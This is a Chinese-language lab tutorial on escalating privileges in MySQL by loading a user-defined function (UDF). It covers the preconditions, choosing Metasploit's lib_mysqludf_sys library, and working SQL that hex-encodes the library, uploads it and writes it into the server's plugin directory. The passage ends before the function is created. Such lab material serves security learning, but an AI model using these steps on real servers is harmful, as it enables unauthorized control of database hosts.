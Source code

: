 使用 UDF 可以加载自定义的函数，因此可以通过自定义函数执行各种操作，关于用户自定义函数的编写可参考，[Extending MySQL](https://docstore.mik.ua/orelly/weblinux2/mysql/ch14_01.htm)

## 2 使用 UDF

那么如何使用 UDF 进行提权呢？

**前提条件：**

1. MySQL 用户能写文件到 MySQL 指定的自定义函数库存放目录。
2. MySQL 用户具有 `INSERT` 权限，才能使用 `CREATE FUNCTION`语句在 MySQL 中添加自定义的函数，此外如果使用 `DROP FUNCTION` 语句删除自定义函数，还需要有 `DELETE` 权限。

**实验环境：**

- 攻击主机：Kali Linux
- MySQL 服务器主机：[owaspbwa](https://sourceforge.net/projects/owaspbwa/files/1.2/)

**步骤：**

1. 根据目标系统（MySQL服务器主机）的类型，准备好相应的可加载的库文件，网上有不少 UDF 的库文件，这里使用 Metasploit 自带的 UDF 库，Kali 主机上 `find / -name '*mysqludf*'` 进行搜索，可以看到可用的库文件，[GitHub上也有](https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql)，这里根据系统类型使用 `lib_mysqludf_sys_32.so`。

```
# 查看系统类型
MySQL [pwn]> show variables like "%compile%";
+-------------------------+------------------+
| Variable_name           | Value            |
+-------------------------+------------------+
| version_compile_machine | i486             |
| version_compile_os      | debian-linux-gnu |
+-------------------------+------------------+

```

1. 将自定义函数的库文件放到 MySQL 指定的文件目录下，这个文件目录和 MySQL 的版本相关。

```
# MySQL 版本 < 5.0.67, 放在能别系统的链接器检索的文件夹即可，通常系统目录都是行的，如在 Windows中，C:\\WINDOWS\\ 或者 C:\\WINDOWS\\system32\\
# MySQL 版本 >= 5.0.67, 指定在 plugin_dir 目录下
mysql> select @@plugin_dir;
+------------------------+
| @@plugin_dir           |
+------------------------+
| /usr/lib/mysql/plugin/ |
+------------------------+
# 将 UDF 库文件写到 plugin_dir 目录中,前提是可以写文件到 plugin_dir 目录中
# 将 库文件转换成 16进制字符存储，而后写入到表中，最终存到 plugin_dir 目录中，
# Kali Linux 上的 MySQL
MariaDB [(none)]> select hex(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.so')) into dumpfile '/tmp/udf.hex';
Query OK, 1 row affected (0.01 sec)
# 远程登陆的 MySQL，从 Kali Linux上传，使用 local 关键字
MySQL [pwn]> load data local infile '/tmp/udf.hex' into table udf(data);
Query OK, 1 row affected (0.00 sec)
Records: 1  Deleted: 0  Skipped: 0  Warnings: 0
# 将自定义库存到指定目录
MySQL [pwn]> select unhex(data) from udf into dumpfile '/usr/lib/mysql/plugin/udf.so';
Query OK, 1 row affected (0.00 sec)
```
